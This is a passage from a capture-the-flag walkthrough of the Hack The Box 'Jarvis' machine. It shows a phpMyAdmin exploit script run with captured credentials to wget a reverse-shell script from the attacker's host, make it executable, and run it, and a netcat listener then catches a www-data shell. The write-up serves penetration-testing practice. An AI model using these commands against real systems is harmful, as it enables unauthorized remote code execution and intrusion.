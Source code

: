 Let's upload and change its permission.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "wget http://10.10.14.4:8000/rshell.sh -O /tmp/rshell.sh"



┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "chmod +x /tmp/rshell.sh"



┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "ls -al /tmp"             
total 36
drwxrwxrwt  4 root     root     4096 Apr 14 11:28 .
drwxr-xr-x 23 root     root     4096 Oct  5  2023 ..
-rw-r--r--  1 pepper   pepper     33 Apr 14 07:00 flag.txt
drwxr-xr-x  2 www-data www-data 4096 Apr 14 07:06 poc
drwxr-xr-x  2 pepper   pepper   4096 Apr 14 07:17 pspy
-rwxr-xr-x  1 www-data www-data   74 Apr 14 11:25 rshell.sh
-rwxrwxrwx  1 pepper   pepper     61 Apr 14 10:15 shell.sh
-rw-r--r--  1 www-data www-data   52 Apr 14 07:10 ss.sh
-rwxrwxrwx  1 pepper   pepper     38 Apr 14 10:30 test.sh
```

Let's open a reverse shell now.

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ python2 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "bash /tmp/rshell.sh"
```

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.143] 51238
bash: cannot set terminal process group (617): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/usr/share/phpmyadmin$ id
idwho
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



# Shell as `pepper`

### Enumeration

The user `www-data` can do `sudo` with a python script : `/var/www/Admin-Utilities/simpler.py`
